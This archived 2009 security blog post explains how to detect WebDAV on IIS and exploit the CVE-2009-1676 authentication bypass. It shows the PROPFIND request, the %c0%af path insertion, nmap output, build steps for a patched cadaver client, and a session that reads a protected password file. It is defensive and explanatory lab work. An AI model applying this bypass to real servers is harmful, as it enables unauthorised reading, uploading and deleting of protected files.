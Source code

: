 ```yaml
---
id: 294
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T18:06:27-05:00'
author: Andrew
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=294'
permalink: '/?p=294'
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability ([CVE-2009-1676](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676)) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is \_not\_ protected then it's time to break out the funky cold medina and have some fun.

## Detecting if WebDAV is enabled

Tested working on  
\* IIS 6.0/Windows 2003 Enterprise SP2  
\* IIS 5.1/Windows XP Pro SP2  
\* IIS 5.0/Windows 2000 SP4

On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

```

PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

<?xml version="1.0" encoding="utf-8"?>
<propfind xmlns="DAV:">
<prop>
<getcontentlength xmlns="DAV:"/>
<getlastmodified xmlns="DAV:"/>
<executable xmlns="http://apache.org/dav/props/"/>
<resourcetype xmlns="DAV:"/>
<checked-in xmlns="DAV:"/>
<checked-out xmlns="DAV:"/>
</prop>
</propfind>
```

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.

## Checking if a server is vulnerable

Tested working on  
\* IIS 6.0/Windows 2003 Enterprise SP2  
\* IIS 5.1/Windows XP Pro SP2

Tested not working on  
\* IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.

## Finding a vulnerable server

Tested working on

- IIS 6.0/Windows 2003 Enterprise SP2
- IIS 5.1/Windows XP Pro SP2

Tested not working on

- IIS 5.0/Windows 2000 SP4

Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

```

> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
```

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

## Exploiting it!

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called [cadaver](http://www.webdav.org/cadaver/), and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) and after hacking away at it for awhile, we came up with [a little patch](PATCHGOESHERE) that makes it quite easy to exploit a server. Check [the patch itself](PATCHGOESHERE) for the gritty details but basically it does the following:

1\) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)  
2\) Append the header "Translate: f" to every request (otherwise get and probably others won't work)  
3\) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the [cadaver-0.23.2-h4x.patch](PATCHGOESHERE) and apply it to the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) from the [cadaver website](http://www.webdav.org/cadaver/). Here's the commands:

```

> mkdir cadaver-h4x
> cd cadaver-h4x
> wget PATCHGOESHERE
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1  ./configure
--snip--
> make
--snip--
```

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

```

> ./cadaver xxx.xxx.xxx.xxx
```

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

```

dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
```

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:  
\* CD  
\* LS  
\* MOVE  
\* PUT  
\* GET  
\* CAT  
\* DELETE

Oddly enough, the **COPY** command does **NOT** work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca